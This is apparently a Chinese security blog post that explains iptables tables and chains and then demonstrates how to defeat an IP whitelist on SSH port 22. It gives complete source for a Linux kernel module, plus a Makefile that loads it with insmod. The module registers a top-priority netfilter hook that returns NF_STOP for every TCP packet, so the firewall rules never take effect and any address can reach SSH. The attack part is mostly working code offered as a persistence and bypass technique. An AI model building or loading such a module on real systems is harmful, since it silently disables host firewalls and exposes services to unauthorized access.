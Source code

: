```yaml
---
layout: post
title: "Netfilter and Iptables：netfilter模块绕过iptables规则"
date: 2020-09-08 
description: "netfilter模块绕过iptables规则"
tag: Linux攻防
---   
```


### iptables 介绍及技术原理
![](/imag/20200908/1.png)
![](/imag/20200908/2.png)
![](/imag/20200908/3.png)
优先级次序（由高而低）：
raw --> mangle --> nat --> filter
------------------------------------------------------------------------------------
filter      表：负责过滤功能，防火墙；内核模块：iptables_filter
nat        表：network address translation，网络地址转换功能；内核模块：iptable_nat
mangle 表：拆解报文，做出修改，并重新封装 的功能；iptable_mangle
raw       表：关闭nat表上启用的连接追踪机制；iptable_raw
------------------------------------------------------------------------------------
PREROUTING      的规则可以存在于：raw表，mangle表，nat表。
INPUT                   的规则可以存在于：mangle表，filter表，（centos7中还有nat表，centos6中没有）。
FORWARD           的规则可以存在于：mangle表，filter表。
OUTPUT               的规则可以存在于：raw表mangle表，nat表，filter表。
POSTROUTING   的规则可以存在于：mangle表，nat表。
------------------------------------------------------------------------------------
raw        表中的规则可以被哪些链使用：PREROUTING，OUTPUT
mangle  表中的规则可以被哪些链使用：PREROUTING，INPUT，FORWARD，OUTPUT，POSTROUTING
nat         表中的规则可以被哪些链使用：PREROUTING，OUTPUT，POSTROUTING（centos7中还有INPUT，centos6中没有）
filter       表中的规则可以被哪些链使用：INPUT，FORWARD，OUTPUT
------------------------------------------------------------------------------------
### 我们可以将数据包通过防火墙的流程总结为下图：

![](/imag/20200908/4.png)
 如何绕过iptables规则？
有如下场景：
centos7主机限制了ssh的22端口的登录，只能由特定的ip登录
iptables规则如下：
首先在INPUT链中丢弃了所有通往22端口的tcp包
iptables -I INPUT -p tcp --dport 22 -j DROP
然后设置白名单，只允许某一特定ip通过
iptables -I INPUT -s 192.168.71.1 -p tcp --dport 22 -j ACCEPT

从上面的命令中我们可以分析出，INPUT链中新添加了两条规则，拒绝所有的包以及设置白名单，-I参数表示插入，后面的白名单规则的优先级会高于前面的规则，所以iptables会首先放行来自192.168.71.1的TCP包，而来自其它ip的通往22端口的tcp包则会被另一条规则drop掉，从而达到22端口限制ip登录的功能。
接下来我们编写Netfilter模块，绕过iptables规则，使得任意ip都可以登录ssh
iptables的 INPUT 链对应 Netfilter 的HOOK点为 NF_INET_LOCAL_IN，iptables -I INPUT -s 192.168.71.1 -p tcp --dport 22 -j ACCEPT 这条规则就相当于使用netfilter 在NF_INET_LOCAL_IN hook点注册了一个回调函数，这个函数只允许该ip的数据包通过，iptables的源码其实也是这么做的
所以我们的 nf_hook_ops 结构体将像下面这样初始化：
static struct nf_hook_ops anyssh_ops = {
    /* Fill in our hook structure */
   nfho.hook     = hook_func;
   /* Handler function */
   nfho.hooknum  = NF_INET_LOCAL_IN;
   nfho.pf       = PF_INET;
   nfho.priority = NF_IP_PRI_FIRST;   /* Make our func first */
}
hook回调函数：
我们过滤了tcp数据包，并且将所有的tcp包都返回 NF_STOP

NF_STOP表示报文通过了某个钩子函数的处理，后面的钩子函数你们就不要处理了，谁让你的优先级低呢，我就可以替你做主。假设NF_INET_LOCAL_IN中注册了两个钩子函数hook1和hook2，hook1的优先级高于hook2，hook2设定的处理结果是NF_DROP。如果hook1设定的处理结果是NF_ACCEPT，那么报文就不会递交给应用程序，因为hook2会把报文丢弃掉。如果hook1设定的处理结果是NF_STOP，那么报文就会提交给应用程序，因为hook1放行了，根本不会给hook2处理的机会。这个机制只在一个HOOK点的函数链中生效。也就是说iptables规则假设所处于的链为INPUT，则netfiler hook函数必须处于NF_INET_LOCAL_IN。
这么做的原因就是为了让iptables的规则失效，由于我们设置了 nfho.priority = NF_IP_PRI_FIRST; 我们的hook函数在INPUT这个链中处于最高优先级，只要直接返回NF_STOP，就没有后面iptbales什么事了，也就达到了任意ip都可以登录ssh的目的。
unsigned int hook_func(unsigned int hooknum,
                       struct sk_buff *skb,
                       const struct net_device *in,
                       const struct net_device *out,
                       int (*okfn)(struct sk_buff *))
{
    struct iphdr *ip1 = NULL;
    if (!skb){
        return NF_ACCEPT;
    }
    ip1 = ip_hdr(skb);
    if (NULL != ip1){
        if (IPPROTO_TCP == ip1->protocol){
            printk("tcp,STOP\n");
            return NF_STOP;
        }
    }else{
        printk("null!\n"); 
    }
    return NF_ACCEPT;
}

完整代码：
any_ssh.c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/skbuff.h>
#include <linux/ip.h>                  /* For IP header */
#include <linux/netfilter.h>
#include <linux/netfilter_ipv4.h>


static struct nf_hook_ops nfho;


unsigned int hook_func(unsigned int hooknum,
                       struct sk_buff *skb,
                       const struct net_device *in,
                       const struct net_device *out,
                       int (*okfn)(struct sk_buff *))
{
    struct iphdr *ip1 = NULL;
    if (!skb){
        return NF_ACCEPT;
    }
    ip1 = ip_hdr(skb);
    if (NULL != ip1){
        if (IPPROTO_TCP == ip1->protocol){
            printk("tcp,drop\n");
            //return NF_DROP;
            return NF_STOP;
        }
    }else{
        printk("null!\n"); 
    }
    return NF_ACCEPT;
}


int init_module()
{
   /* Fill in our hook structure */
   nfho.hook     = hook_func;
   /* Handler function */
   //nfho.hooknum  = NF_INET_PRE_ROUTING; /* First for IPv4 */
   nfho.hooknum  = NF_INET_LOCAL_IN;
   nfho.pf       = PF_INET;
   nfho.priority = NF_IP_PRI_FIRST;   /* Make our func first */
   printk("init_module,filter_tcp\n");
   nf_register_hook(&nfho);


   return 0;
}


/* Cleanup routine */
void cleanup_module()
{
    printk("cleanup_module,filter_tcp\n");
    nf_unregister_hook(&nfho);
}



Makefile

MODULE_NAME:=filter_tcp
ifneq ($(KERNELRELEASE),)
mymodule-objs:=${MODULE_NAME}.o
obj-m:=${MODULE_NAME}.o
else
PWD:=$(shell pwd)
KVER:=$(shell uname -r)


KDIR:=/lib/modules/$(shell uname -r)/build
all:
    $(MAKE) -C $(KDIR) M=$(PWD)
#clean:
    @rm -rf .*.com *.o *.mod.c  .tmp_versions modules.order Module.symvers
install:
    echo ${KDIR}
    @insmod ${MODULE_NAME}.ko
uninstall:
    @rmmod ${MODULE_NAME}.ko
endif


###转载请注明出处

安全编程交流：NzgyNDIxODg3


